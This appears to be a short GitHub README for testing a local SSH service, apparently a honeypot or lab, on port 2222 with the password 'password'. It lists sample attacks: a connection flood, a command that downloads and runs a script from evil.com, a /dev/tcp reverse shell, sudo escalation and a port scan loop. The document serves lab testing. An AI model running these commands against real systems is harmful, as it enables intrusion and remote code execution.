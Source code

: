 "# HACK-" 
open cmd : to login 
   ssh admin@localhost -p 2222

try worng passwords 
correct password :password

once login try : 

<img width="465" height="457" alt="image" src="https://github.com/user-attachments/assets/e1ff4779-e72b-420d-a613-dd4a13f253c3" />

<img width="605" height="369" alt="image" src="https://github.com/user-attachments/assets/4aa931a3-a8cc-4cdd-8e4c-cbbd13d9c178" />

in cmd if the following error occurs 

""""" @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
SHA256:0c20MU9M8La+J3A0ZHkPyid89qFn3zJfkqB5gorgKUk.
Please contact your system administrator.
Add correct host key in C:\\Users\\Dell/.ssh/known_hosts to get rid of this message.
Offending RSA key in C:\\Users\\Dell/.ssh/known_hosts:1
Host key for [localhost]:2222 has changed and you have requested strict checking.
Host key verification failed.  """""

try : ssh-keygen -R "[localhost]:2222"
then again : ssh admin@localhost -p 2222


other attacks :

1) Connection Flood:

          for /L %i in (1,1,10) do start ssh admin@localhost -p 2222

2) Malicious Command Injection:

           ssh admin@localhost -p 2222 "wget http://evil.com/script.sh -O /tmp/script.sh; chmod +x /tmp/script.sh; /tmp/script.sh"

3) Reverse Shell Attempt:

         ssh admin@localhost -p 2222 "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"

4) Sudo Privilege Escalation:

          ssh admin@localhost -p 2222
           Then in session: sudo su

5) Port Scanning:

       for /L %i in (1,1,100) do (
         timeout 1 ssh admin@localhost -p %i 2>nul && echo Port %i is open || echo Port %i is closed
       )

